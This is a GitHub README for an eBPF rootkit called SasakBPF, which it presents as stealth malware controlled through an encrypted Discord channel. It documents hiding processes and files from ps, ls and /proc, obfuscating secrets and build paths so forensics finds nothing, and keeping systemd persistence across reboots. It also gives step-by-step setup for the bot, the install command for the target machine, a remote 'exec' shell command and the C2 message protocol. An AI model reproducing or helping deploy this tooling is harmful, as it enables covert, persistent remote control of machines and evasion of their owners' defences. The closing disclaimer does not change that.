# SasakBPF Backdoor EBPF C2




A stealth eBPF rootkit with Discord-based command and control.

SasakBPF leverages eBPF `fexit` tracing to hide processes, files kernel level — without loading a kernel module. The
implant communicates over Discord WebSocket (WSS) using AES-256-GCM
encrypted messages, making C2 traffic indistinguishable from normal
Discord client activity.

## Flow



| Layer | Technology | Purpose |
|-------|-----------|---------|
| Evasion | eBPF `fexit` on `getdents64` | Hide processes, files, directories from `ls`, `ps`, `/proc` |
| Bootstrap | systemd unit + Go loader (`cilium/ebpf`) | No kernel module, pure userspace BPF loading |
| C2 | Discord WSS gateway | AES-256-GCM encrypted `sd1` protocol, blends with Discord CDN traffic |
| Operator | Go CLI (`sasakbpf-mac`) | Terminal-based REPL with readline, multi-target, tab completion |
| Obfuscation | XOR secrets | Build-time secret encoding, Go binary obfuscation |


- **Process hiding** — hide agent, loader, and arbitrary PIDs from `/proc` and `ps`
- **File hiding** — hide files/directories matching compiled patterns via `getdents64` coalescing
- **Discord C2** — bidirectional encrypted command channel over Discord REST + WebSocket
- **Multi-target** — single Discord channel supports unlimited implants, each with unique ID
- **Boot persistence** — systemd service, survives reboots
- **CO-RE portable** — single BPF object runs on kernels 5.5 through 6.x (tested 5.15, 6.8)
- **Auto-provisioning** — `build.sh install` handles Go download, clang install, BPF compile, binary build, and systemd registration in one command
- **Build-time obfuscation** — XOR-encoded secrets prevent `strings` from revealing credentials

### BTF Path Sanitization

BPF objects embed source file paths in BTF metadata. SasakBPF compiles from
a benign directory (`/usr/local/src/sched/`) to avoid exposing the original
build environment path:





## Setup Guide

The build requires three secrets. Here's how to obtain each one:

#### 1. SD_BOT_TOKEN — Discord Bot Token

1. Go to [Discord Developer Portal](https://discord.com/developers/applications)
2. Click **New Application** → give it a name (e.g., `System Monitor`)
3. Go to the **Bot** tab → click **Add Bot** → click **Reset Token** → copy the token



5. Under **Privileged Gateway Intents**, enable all three:
   - **Presence Intent**
   - **Server Members Intent**
   - **Message Content Intent**
 
6. Invite the bot to your server channel — open this URL in a browser (replace `CLIENT_ID` with the **Application ID** from the **General Information** tab):


   ```
   https://discord.com/oauth2/authorize?client_id=<Application ID DC portal>&permissions=3072&scope=bot
   ```


#### 2. SD_CHANNEL_ID — Command Channel ID

1. In Discord, go to **User Settings → App Settings → Advanced**
2. Enable **Developer Mode**


4. Right-click the channel where you want to receive commands → **Copy ID**


#### 3. SD_AES_KEY_HEX — Encryption Key

Generate a 32-byte (256-bit) random key:

```bash
openssl rand -hex 32
```

Example output: `a1b2c3d4e5f60718293a4b5c6d7e8f90xxxxxxxxxxxxxx`

### Configure

```bash
cp secrets.env.example secrets.env
nano secrets.env
```

Fill in the values you obtained above. Leave `SD_TARGET_ID` blank — it's auto-generated per build.

```ini
SD_BOT_TOKEN=MTMz...your_token...
SD_CHANNEL_ID=1304157832412790909
SD_AES_KEY_HEX=a1b2c3d4e5f60718293a4b5c6d7e8f90
# SD_TARGET_ID=   ← leave empty, auto-generated
```

## Start

### Prerequisites

- **Target**: Linux x86_64, kernel ≥ 5.5
- **Operator**: macOS or Linux with Go 1.21+

### Target 

```bash
git clone https://github.com/wanmywan/sasakbpf-ce2
# Follow the Setup Guide above to configure secrets.env first
sudo ./build.sh install
```

This single command:
1. Downloads Go 1.26.5 if needed (cleaned up after build)
2. Installs clang via apt if missing
3. Compiles the BPF object with CO-RE
4. Builds the agent and systemd loader
5. Registers `sd-agent.service` and starts it
6. Enables boot persistence



### Command

```bash
# On macOS:
./build.sh mac                        # produces userspace/bin/
./build.sh linux                      # produces userspace/bin/
# Connect:
./sasakbpf-bin -target <targetID>
```





### Management

```bash
sudo ./build.sh status       # check service, BPF programs, WSS connection
sudo ./build.sh uninstall    # stop + remove + clean pinned BPF maps
```

## Command Reference

| Command | Description |
|---------|-------------|
| `exec <cmd>` | Execute shell command on active target |
| `help` | Show available commands |
| `history [N]` | Show recent CLI history |
| `clear` | Clear terminal |
| `quit` / `exit` | Exit CLI |


## Protocol??

The `sd1` protocol uses Discord channel messages as a transport layer:

```
sd1:<targetID>:<base64(nonce || AES-256-GCM ciphertext)>     # operator → agent (command)
sd1ack:<targetID>:<base64(nonce || AES-256-GCM ciphertext)>  # agent → operator (output)
sd1ping:<targetID>                                            # operator → agent (keepalive)
sd1pong:<targetID>                                            # agent → operator (heartbeat)
```

Each implant only processes messages addressed to its unique target ID.
Multiple implants can safely coexist in a single Discord channel.

## Kernel Compatibility

| Kernel | fentry/fexit | BTF/CO-RE | Status |
|--------|:---:|:---:|--------|
| < 5.5 | No | No | Unsupported |
| 5.5–5.14 | Yes | Partial | Untested |
| 5.15+ | Yes | Yes | **Tested** |
| 6.x | Yes | Yes | **Tested (6.8)** |

Requires: `CONFIG_BPF_JIT=y`, `CONFIG_DEBUG_INFO_BTF=y`, `CONFIG_BPF_SYSCALL=y`


> [!WARNING]
> This code is intended solely for educational, research, and authorized testing purposes. Unauthorized use of this software on production systems or without explicit permission is strictly prohibited. The author accepts no liability for any damage or misuse caused by this repository.
